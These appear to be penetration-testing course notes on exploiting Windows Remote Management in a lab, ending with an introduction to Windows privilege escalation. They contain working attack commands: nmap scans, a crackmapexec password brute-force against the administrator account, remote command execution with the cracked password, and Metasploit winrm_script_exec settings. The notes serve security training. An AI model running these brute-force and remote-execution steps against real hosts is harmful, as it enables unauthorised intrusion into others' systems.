 
### Exploiting WinRM

Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S). Microsoft implemented WinRM in to Windows in order to make life easier for system administrators. WinRM is typically used in the following ways: Remotely access and interact with Windows hosts on a local network. Remotely access and execute commands on Windows systems. Manage and configure Windows systems remotely. WinRM typically uses TCP port 5985 and 5986 (HTTPS).


### Practical Exploiting WinRM

- `nmap -sV demo.ine.local` The Default Ports that are configured for this scan is only the most common 1000.
- `nmap -sV -p 5985 demo.ine.local`
- `crackmapexec` Launches Crackmapexec
- `crackmapexec winrm 10.2.16.39 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt)` Perform bruteforceattack only on the administrator account.
- `crackmapexec winrm 10.2.16.39 -u administrator -p tinkerbell -x "whoami"` Use Crackmapexec to execute arbitrary commands and execute whoami on the windows server.
- `crackmapexec winrm 10.2.16.39 -u administrator -p tinkerbell -x "systeminfo"`  Use Crackmapexec to execute arbitrary commands and execute systeminfo on the windows server.
- `service postgresql start && msfconsole`
- `use exploit/windows/winrm/winrm_script_exec`
- `setg RHOSTS 10.2.16.39`
- `set USERNAME administrator`
- `set PASSWORD tinkerbell`
- `set FORCE_VBS true` Force the module to use the VBS CmdStager
- `getuid` puts the UID of the process out


## Windows Privilege Escalation

Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.

**Windows Kernel**

A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.

Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware: 1. User Mode – Programs and services running in user mode have limited access to system resources and functionality. 2. Kernel Mode – Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

**Windows Kernel Exploitation**
